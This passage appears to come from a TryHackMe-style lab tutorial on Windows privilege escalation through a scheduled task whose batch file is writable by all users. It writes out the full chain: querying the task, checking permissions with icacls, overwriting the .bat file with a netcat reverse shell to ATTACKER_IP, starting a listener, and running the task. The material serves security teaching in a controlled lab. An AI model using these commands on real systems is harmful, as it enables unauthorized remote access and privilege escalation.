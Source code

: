 - **Command Prompt**        

```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
        
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the  user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run"  executable, we can control what gets executed by the taskusr1 user,  resulting in a simple privilege escalation. To check the file  permissions on the executable, we use `icacls`:

- **Command Prompt**        

```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
        
```

As can be seen in the result, the **BUILTIN\Users**  group has full access (F) over the task's binary. This means we can  modify the .bat file and insert any payload we like. For your  convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

- **Command Prompt**        

```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
        
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```shell-session
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to  start the task in a real scenario and would have to wait for the  scheduled task to trigger, we have provided your user with permissions  to start the task manually to save you some time. We can run the task  with the following command:

- **Command Prompt**        

```shell-session
C:\> schtasks /run /tn vulntask
        
```
